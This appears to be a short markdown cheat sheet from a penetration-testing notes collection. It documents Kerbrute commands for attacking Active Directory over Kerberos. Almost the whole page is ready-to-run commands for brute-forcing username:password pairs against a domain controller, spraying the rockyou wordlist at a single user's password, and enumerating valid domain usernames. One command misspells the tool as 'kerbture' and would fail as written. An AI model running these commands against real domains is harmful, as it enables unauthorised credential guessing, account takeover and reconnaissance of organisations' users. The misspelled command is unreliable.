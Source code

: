 ```yaml
---
title: Kerbrute
desc: Bruteforcing Kerberos pre-auth.
tags: [ActiveDirectory, Linux, Windows]
alts: [Impacket]
website:
---
```


## Bruteforce username:password

```sh
kerbrute bruteforce --dc 10.0.0.1 -d example.domain /path/to/combos.txt

# combos.txt example:
# username:password
# admin:admin
# wiener:peter
```

<br />

## Bruteforce user's password

```sh
kerbture bruteuser --dc 10.0.0.1 -d example.domain /usr/share/wordlists/rockyou.txt username
```

<br />

## Enumerate users

```sh
# Get users (--dc: the location of domain controller, -d: domain name)
kerbrute userenum --dc 10.0.0.1 -d example.local /usr/share/wordlists/username.txt
```
